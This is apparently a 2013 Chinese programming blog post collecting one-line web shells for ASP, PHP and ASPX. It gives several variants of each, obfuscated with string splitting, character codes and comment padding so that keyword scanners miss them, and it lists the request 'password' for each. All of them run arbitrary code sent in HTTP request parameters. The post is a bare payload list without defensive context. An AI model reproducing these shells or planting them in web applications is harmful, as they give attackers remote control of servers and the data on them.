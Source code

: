 title: "asp|php|aspx一句话"
date: 2013-07-04 19:03:27
tags:
id: 309
comment: false
categories:
  - 编程学习
---

asp
<pre>&lt;%Y=request("x")%&gt; &lt;%execute(Y)%&gt;
&lt;%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))("sz"))%&gt; 
&lt;%D=request("C")%&gt; &lt;%execute(D)%&gt;
&lt;%eval""&amp;("e"&amp;"v"&amp;"a"&amp;"l"&amp;"("&amp;"r"&amp;"e"&amp;"q"&amp;"u"&amp;"e"&amp;"s"&amp;"t"&amp;"("&amp;"0"&amp;"-"&amp;"2"&amp;"-"&amp;"5"&amp;")"&amp;")")%&gt;  //password 7.
</pre>

php
<pre class="brush:php">&lt;?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?&gt;

&lt;?php $lang = (string)key($_POST);$lang($_POST['sz']);?&gt;

&lt;?php $k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);?&gt;

&lt;?php  $a = "a"."s"."s"."e"."r"."t";  $a($_POST["sz"]);  ?&gt;

&lt;?php $k="ass"."ert"; $k(${"_PO"."ST"} [sz]);?&gt;

&lt;?php
@$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";
@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";
@$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}
[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);?&gt; //password 7</pre>

aspx
<pre class="brush:php">&lt;%@ Page Language = Jscript %&gt;
&lt;%var/*-/*-*/P/*-/*-*/=/*-/*-*/"e"+"v"+/*-/*-*/
"a"+"l"+"("+"R"+"e"+/*-/*-*/"q"+"u"+"e"/*-/*-*/+"s"+"t"+
"[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]"+
","+"\""+"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"+"\""+")";eval
(/*-/*-*/P/*-/*-*/,/*-/*-*/"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"/*-/*-*/);%&gt; //password 7

&lt;script language="C#" runat="server"&gt; 
WebAdmin2Y.x.y aaaaa = new WebAdmin2Y.x.y("add6bb58e139be10"); 
&lt;/script&gt; 
password webadmin</pre>

&nbsp;